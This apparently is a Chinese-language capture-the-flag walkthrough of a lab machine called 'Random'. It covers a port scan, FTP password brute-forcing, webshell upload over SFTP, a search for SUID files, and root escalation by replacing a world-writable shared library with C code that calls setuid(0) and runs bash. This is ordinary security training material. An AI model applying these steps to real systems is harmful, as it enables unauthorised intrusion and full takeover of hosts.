# Random

## FTP匿名登录

`fscan`扫描发现`ftp`匿名登录

```bash
$ fscan -h 192.168.1.128 -p 1-65535

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
192.168.1.128:80 open
192.168.1.128:21 open
192.168.1.128:22 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://192.168.1.128      code:200 len:185    title:None
[+] ftp 192.168.1.128:21:anonymous
   [->]html
```

但是上去之后无法修改，访问网页发现说是关闭了`eleanor`的`ssh`访问



## FTP密码爆破

可以得知两个用户名`alan`和`eleanor`，`ftp`匿名登录也没有进入`html`目录的权限，`dirsearch`也没找到东西，因为说禁用了`eleanor`的`ssh`登录权，这里先尝试`ftp`



发现密码为`ladybug	`,`ftp`连接能正常下载文件，`index.html`就是主页内容，但是无法上传





## SFTP上传shell

但是使用`sftp`连接能正常上传`webshell`



蚁剑连接




因为后面可能要提权，先反弹`shell`出来，虽然`eleanor`不能`ssh`登录，但知道密码，可以`su`切换用户



查找可提权的文件

```bash
find / -perm -4000 2>/dev/null
```



发现`random`文件，下载下来逆向一下



就是检测以当前时间为种子的随机数的0-9的余数能不能与我们输入的值相等，只要一直输入0-9之间的数就可以匹配上



但是返回的用户还是我们自己，看一下`makemeroot`函数没有内容



## 动态链接库劫持

可能是调用了本地的动态链接库，使用

```bash
$ ldd random
```



`/lib/librooter.so`链接库是可写的

```bash
$ ls -al /lib/librooter.so
-rwxrwxrwx 1 root root 15984 Oct 19  2020 /lib/librooter.so
```

`glibc`版本号为，但是这里他本地有`gcc`，直接用他的`gcc`编译

```bash
$ ls -l /lib/x86_64-linux-gnu/libc.so.6
lrwxrwxrwx 1 root root 12 May  1  2019 /lib/x86_64-linux-gnu/libc.so.6 -> libc-2.28.so
```

替换为

```c
#include <stdlib.h>

void makemeroot()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

```bash
$ gcc -shared demo.c -o /lib/librooter.so
demo.c: In function ‘makemeroot’:
demo.c:5:9: warning: implicit declaration of function ‘setuid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
         setuid(0);
         ^~~~~~
         setenv
demo.c:6:9: warning: implicit declaration of function ‘setgid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
         setgid(0);
         ^~~~~~
         setenv
```

